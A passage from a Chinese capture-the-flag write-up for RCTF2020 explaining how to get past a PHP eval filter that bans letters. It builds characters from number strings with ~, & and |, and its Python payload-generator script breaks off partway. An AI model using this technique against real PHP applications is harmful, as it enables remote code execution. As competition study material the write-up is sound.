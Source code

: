 ```php
    @eval('echo '.$str.';');
}
?>
```

过滤比较严格，最关键的把字母、异或、反引号、$等ban了，那么之前常用的无字母数字webshell就不好使了，不过有或运算和与运算还在，那么就可以通过| & ~等构造字母
echo (((10000000000000000000000).(1)){3});

![image-20200625173737674](RCTF2020 Web记录.assets/image-20200625173737674.png)

或者

![image-20200625174132430](RCTF2020 Web记录.assets/image-20200625174132430.png)

放一个cjm00n师傅的脚本

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

table = list(b'0123456789.-EINF')
dict={}
l=len(table)
temp=0
while temp!=l:
    for j in range(temp,l):
        if ~table[j] & 0xff not in table:
            table.append(~table[j] & 0xff)
            dict[~table[j] & 0xff] = {'op':'~','c':table[j]}
    for i in range(l):
        for j in range(max(i+1,temp),l):
            t = table[i] & table[j]
            if t not in table:
                table.append(t)
                dict[t] = {'op':'&','c1':table[i],'c2':table[j]}
            t = table[i] | table[j]
            if t not in table:
                table.append(t)
                dict[t] = {'op': '|', 'c1': table[i], 'c2': table[j]}
    temp=l
    l=len(table)

table.sort()
def howmake(ch:int) -> str:
    if ch in b'0123456789':
        return '(((1).(' + chr(ch) + ')){1})'
    elif ch in b'.':
        return '(((1).(0.1)){2})'
    elif ch in b'-':
        return '(((1).(-1)){1})'
    elif ch in b'E':
        return '(((1).(0.00001)){4})'
    elif ch in b'I':
        return '(((999**999).(1)){0})'
    elif ch in b'N':
        return '(((999**999).(1)){1})'
    elif ch in b'F':
        return '(((999**999).(1)){2})'

    d = dict.get(ch)
    if d:
        op = d.get('op')
        if op == '~':
            c = '~'+howmake(d.get('c'))
        elif op =='&':
```